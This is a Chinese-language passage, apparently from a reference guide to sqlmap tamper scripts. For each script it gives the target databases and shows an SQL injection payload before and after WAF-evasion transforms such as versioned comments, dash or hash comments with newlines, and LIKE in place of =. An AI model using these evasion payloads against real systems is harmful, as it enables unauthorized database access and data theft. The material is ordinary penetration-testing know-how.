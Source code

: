 使用脚本前： `tamper('1 AND 2>1--')`

使用脚本后： `1 /*!00000AND 2>1*/--`

**space2mysqldash.py**

适用数据库：MySQL、MSSQL

作用：将空格替换为  `--`  ，并追随一个换行符

使用脚本前： `tamper('1 AND 9227=9227')`

使用脚本后： `1--%0AAND--%0A9227=9227`

**bluecoat.py**

适用数据库：Blue Coat SGOS

测试通过数据库：MySQL 5.1, 、SGOS

作用：在sql语句之后用有效的随机空白字符替换空格符，随后用 `LIKE` 替换 `=`

使用脚本前： `tamper('SELECT id FROM users where id = 1')`

使用脚本后： `SELECT%09id FROM users where id LIKE 1`

**versionedkeywords.py**

适用数据库：MySQL

测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11

作用：注释绕过

使用脚本前： `tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`

使用脚本后： `1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

**halfversionedmorekeywords.py**

适用数据库：MySQL < 5.1

测试通过数据库：MySQL 4.0.18/5.0.22

作用：在每个关键字前添加mysql版本注释

使用脚本前： `tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`

使用脚本后： `value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`

**space2morehash.py**

适用数据库：MySQL >= 5.1.13

测试通过数据库：MySQL 5.1.41

作用：将空格替换为 `#` ，并添加一个随机字符串和换行符

使用脚本前： `tamper('1 AND 9227=9227')`
